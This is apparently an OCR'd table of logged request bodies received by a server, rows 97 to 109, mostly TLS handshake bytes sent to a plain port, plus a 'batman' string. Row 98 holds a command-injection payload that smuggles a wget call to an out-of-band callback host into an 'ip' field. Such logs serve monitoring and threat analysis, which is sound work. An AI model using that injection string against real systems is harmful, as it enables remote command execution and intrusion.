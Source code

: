 |  97 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03J\xD6\x9D\xF4A;\xBE\xDD\xB5K\xD7\x0C\xE1\x1D$\xBD&j\xA6f\xBD\x19~\xFD\xD9\xF8\x1E\xEDj\x18\x83{ \x1F\xAD\xF0\x12\xBEi\x90K\x7F\xAC-\xF4\xD0\x978                                                                                                                                                                                                                     |
|  98 |                     1 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht0d143e3ec4uq5e.oast.site                                                                                                                                                                                                                                                                                                                                              |
|  99 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xF7\x9C\xCF\x16\xEF\x8E\xB7\x87\x92\xF2\xFC\xEEK\xFAg\xF5\xA3\x8F\xA1|\xB1N\x04\x9Fq_\xFB\xE6\xC0\xA3\xB5* W\xD1p\x0F\x99\xF4\x7Fg\xA0\xE7\xC35\xF0\x04\x0C\xC10\xF6~\x16H=\xFC\xA9\x0FD\x81\x8C\x9BbQ\x98\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                             |
| 100 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\xA7T\xCE                                                                                                                                                                                                                                                                                                                                                            |
| 101 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\xACM\x14o)z\xCC\xA8\xF7\xA7\x95\xEB\xD43\xDE\xC0i\xE9\xB7\xBCb\x17M'\xBC\xB3c\xB5\xFD\x86`\x82 \xE4\xB6\xE2\xB2L\x8F\xCF\xFA\x95\xA8\xFAM\x03{\xB9#@\x9D\xC8\x8F\xC1\x9C'7\xC4\x85C\x89\xCB\x96\xB8\xFA\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                  |
| 102 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03;\x22\xEF\x9D\x14\xC3\xC2,\xF4\xA3#>\x12P\xD2\xAA\xC0\xBF\x8DUO\xEA\xEDL\xF71V\x19\x1F\x97\x12\x06 &\xB7\x19\x11\xBA|\x16(P\x8C\xB8\x8A\xAF7\xC5\xAC2\xC5\xEB\xAE\x14\xA1cz\xEC~\x97i\xCA\x12*3\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                           |
| 103 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\xC4RG^\xC2\xE7\x97\x18>\x01\x22\xDC\xFBv\xA4L4<. w\xE1\xD6\xF3\x03\xF99d\xFF*g\x9E \x9E\x01\xD1\xEE\xA2X\xF5r|ju\xF3\xB7FO\x14S\x8A\xB5\xDDK]\xCE\xEC\xCF\x07\xF7\x97\xA7\xA0\xCD\x8C\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                                    |
| 104 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03%\x89\x9B\xF4(\x11\x1C\x11\xABoV\x8F\xB9\x8E:\x84\x85\xAD\xA0t\xF0\x84\xAF\x9AiC\x91\x95\xAB\xDC\x06` \xE3_\xF5\x95\x1B\x90T\xE6\xB4\x8A\xA3Qc\xD2\xA9\xB1\xF0i\xD1w\x9D\x87\xDE\x0C\x12\xF8\x19\xAFD?&C\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                  |
| 105 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\x8A*2\x1E\x10~\x904\xA4\xC0\xC6\x01<\xB1\x81Y\xCD\xBDK\x03\x1F0|\xC1?!\x85\xD4\xAEn\xE6\x7F zP\x12;\x15u\xBF\x96c\xA9\xDDf\xE4\xF7in\xC0\xBB9\xF3\xF7\xF7\xE0\xED\xB2\xFF\xA5\xC0\xF4L\xFFW\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                              |
| 106 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03C-\xF3\xAF\x91\xF8                                                                                                                                                                                                                                                                                                                                                   |
| 107 |                     1 | \x1B\x84\xD5\xB0]\xF4\xC4\x93\xC50\xC2X\x8C\xDA\xB1\xD7\xAC\xAFn\x1D\xE1\x1E\x1A3*\x85\xB7\x1D'\xB1\xC9k\xBF\xF0\xBC                                                                                                                                                                                                                                                                                             |
| 108 |                     1 | batman                                                                                                                                                                                                                                                                                                                                                                                                           |
| 109 |                     1 | \x16\x03\x01\x00t\x01\x00\x00p\x03\x01YF}\xF6\x7F3\xD3\xA2'O\xAE\xB6\x041p\x87F\xE5\xA6\xA2\x18\xD1\x0B}\x0C\x9FO)u\xFE\xB1\xD9\x00\x00\x18\xC0\x14\xC0\x13\x005\x00/\xC0                                                                                                                                                                                                                                        |